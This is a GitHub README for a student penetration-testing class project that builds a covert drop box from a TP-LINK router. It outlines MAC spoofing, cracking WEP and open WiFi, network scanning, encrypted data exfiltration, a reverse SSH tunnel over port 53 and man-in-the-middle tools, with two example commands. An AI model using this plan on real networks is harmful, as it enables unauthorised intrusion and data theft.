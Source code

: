 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:

[dig] (https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/)

[xxd] (http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)


1.) External drive will be encrypted. 

> http://oneitguy.com/blog/encrypted-remote-backup-openwrt

> https://dev.openwrt.org/ticket/10787

> http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

> http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Console into the router via Ethernet before 'drop off'.

2.1) Mount the SD card via SSH with encryption password. 

3.) Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.1) Set up the device for monitoring in a given number minutes.

4.) The WR-703N will scans for available wifi networks. It will find unencrypted wifi or WEP and crack them.
  
5.) Once on the target network, does an arp scan / nmap of hosts and other 'fun things' (Navy).

6.) The WR-703N will find its way to internet.

7.) The WR-703N will exfil some data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-128-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) The WR-703N will open a reverse SSH shell into the target network. 
> ssh -R 53:localhost:22 sourceuser@public ip

> tunnel through port 53 (because it it is normally unblocked)

> http://www.howtoforge.com/reverse-ssh-tunneling

9.) Lastly, win... (Navy/Russ) Think man-in-the-middle attacks. dsniff, sslstrip, etc.



Class Requirement:
----
>"Create a remotely C2ed attack pivot box (assume no inbound connections to the device via the targets network), in the smallest form factor possible, including common open source tools, and demonstrate at least 3 TTPs this device could provide"

>Bonus points for operator created tools!

>Narrative for requirement:

>A penetration tester gets access to an in scope building during a security audit.  They place this box inside the target network (wifi or hardline), and then leave.  They are then able to contact the box from their corporate office, allowing them to pivot into their clients network and conduct security testing without being hindered by the customers boundary protections.  